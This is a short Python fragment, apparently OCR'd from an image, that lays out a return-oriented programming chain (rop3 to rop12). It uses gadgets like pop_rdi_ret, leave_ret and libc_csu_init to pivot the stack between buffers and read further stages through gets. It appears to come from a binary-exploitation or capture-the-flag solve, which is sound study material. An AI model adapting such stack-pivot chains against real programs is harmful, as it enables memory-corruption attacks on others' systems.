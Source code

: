 ```python

rop3 = [ # gets_got + 24
 leave_ret
]

rop4 = [ # buf2
 libc_csu_init,
 pop_rbp_ret, buf3 - 8, leave_ret
]

rop5 = [ # buf3
 pop_rdi_ret, buf2 - 24, gets_plt, # rop6_1
 pop_rdi_ret, buf2 + 32, gets_plt, # rop6_2
 pop_rbp_ret, buf2 - 24 - 8, leave_ret
]

rop6_1 = [ # buf2 - 24
 pop_rbx_rbp_r12_r13_r14_r15_ret
]

rop6_2 = [ # buf2 + 32
 pop_rsi_r15_ret, offset, 8,
 add_ebx_esi_ret,
# 0xdeadbeef,
 libc_csu_init,
 pop_rbp_ret, buf4 - 8, leave_ret
]

rop7 = [ # buf4
 pop_rdi_ret, gets_got + 28, gets_plt, # rop8
 pop_rbp_ret, buf5 - 8,
 pop_rsp_r13_r14_r15_ret, gets_got + 4
]

rop8 = [ # gets_got + 28
 leave_ret
]

rop9 = [ # buf5
 libc_csu_init,
 pop_rbp_ret, buf6 - 8, leave_ret
]

rop10 = [ # buf6
 pop_rdi_ret, buf5 - 24, gets_plt, # rop11_1
 pop_rdi_ret, buf5 + 32, gets_plt, # rop11_2
 pop_rbp_ret, buf5 - 24 - 8, leave_ret
]

rop11_1 = [ # buf5 - 24
 pop_rbx_rbp_r12_r13_r14_r15_ret
]

rop11_2 = [ # buf5 + 32
 pop_rdi_ret, buf2 + 68, gets_plt, # rop12
 pop_rbp_ret, buf2 + 68 - 8, leave_ret
]

rop12 = [ # buf2 + 164
 libc_csu_init,
 pop_rbp_ret, buf7 - 8, leave_ret
]

```